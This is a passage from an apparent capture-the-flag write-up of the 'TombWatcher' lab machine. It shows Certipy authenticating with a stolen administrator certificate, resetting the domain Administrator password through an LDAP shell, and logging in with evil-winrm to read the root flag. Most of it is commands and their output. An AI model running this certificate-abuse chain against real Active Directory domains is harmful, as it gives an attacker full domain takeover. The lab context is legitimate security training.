[*] Saving certificate and private key to 'administrator.pfx'                                                                                                                                                                                               
[*] Wrote certificate and private key to 'administrator.pfx'

```

**Step 2**: Authenticate via Schannel (LDAPS) using the obtained certificate & change the administrator's password.

```bash

$ certipy-ad auth -pfx administrator.pfx -dc-ip '10.x.x.x' -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@tombwatcher.htb'
[*] Connecting to 'ldaps://10.x.x.x:636'
[*] Authenticated to '10.x.x.x' as: 'u:TOMBWATCHER\\Administrator'
Type help for list of commands

# whoami
u:TOMBWATCHER\Administrator

# change_password administrator Password123!
Got User DN: CN=Administrator,CN=Users,DC=tombwatcher,DC=htb
Attempting to set new password of: Password123!
Password changed successfully!

```

## Shell as Administrator

```bash

$ evil-winrm -i 10.x.x.x -u 'administrator' -p 'Password123!'

```

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
7ef3f8adedfcde8a9b2dec6b3176c4c5

```

---
